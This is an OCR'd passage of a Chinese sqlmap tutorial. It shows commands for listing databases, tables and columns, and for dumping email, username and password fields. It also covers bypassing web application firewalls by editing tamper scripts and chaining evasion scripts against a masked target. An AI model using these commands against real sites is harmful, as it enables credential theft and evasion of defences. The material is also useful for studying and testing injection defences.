 5.数据库账户与密码 --passwords

6.指定库名列出所有表  -D database --tables

-D：指定数据库名称

7.指定库名表名列出所有字段 -D antian365-T admin --columns

-T：指定要列出字段的表

8.指定库名表名字段dump出指定字段

-D secbang_com -T admin -C  id,password ,username --dump

-D antian365 -T userb -C"email,Username,userpassword" --dump

  可加双引号，也可不加双引号。

9.导出多少条数据

-D tourdata -T userb -C"email,Username,userpassword" --start 1 --stop 10 --dump 

参数：

--start：指定开始的行

--stop：指定结束的行

此条命令的含义为：导出数据库tourdata中的表userb中的字段(email,Username,userpassword)中的第1到第10行的数据内容。

## 1.5 SQLMAP实用技巧

### 1. mysql的注释方法进行绕过WAF进行SQL注入

（1）修改C:\Python27\sqlmap\tamper\halfversionedmorekeywords.py

return match.group().replace(word,"/*!0%s" % word) 为：

return match.group().replace(word,"/*!50000%s*/" % word)

（2）修改C:\Python27\sqlmap\xml\queries.xml

<cast query="CAST(%s ASCHAR)"/>为：

<castquery="convert(%s,CHAR)"/>

（3）使用sqlmap进行注入测试

sqlmap.py -u"http://**.com/detail.php? id=16" –tamper "halfversionedmorekeywords.py"

其它绕过waf脚本方法：

sqlmap.py-u "[http://192.168.136.131/sqlmap/mysql/get_int.php?id=1](http://192.168.136.131/sqlmap/mysql/get_int.php?id=1)" --tampertamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

（4）tamper目录下文件具体含义：

> space2comment.py用/**/代替空格
> 
> apostrophemask.py用utf8代替引号
> 
> equaltolike.pylike代替等号
> 
> space2dash.py　绕过过滤‘=’ 替换空格字符（”），（’–‘）后跟一个破折号注释，一个随机字符串和一个新行（’n’）
> 
> greatest.py　绕过过滤’>’ ,用GREATEST替换大于号。
> 
> space2hash.py空格替换为#号,随机字符串以及换行符
> 
> apostrophenullencode.py绕过过滤双引号，替换字符和双引号。
> 
> halfversionedmorekeywords.py当数据库为mysql时绕过防火墙，每个关键字之前添加mysql版本评论
> 
> space2morehash.py空格替换为 #号 以及更多随机字符串 换行符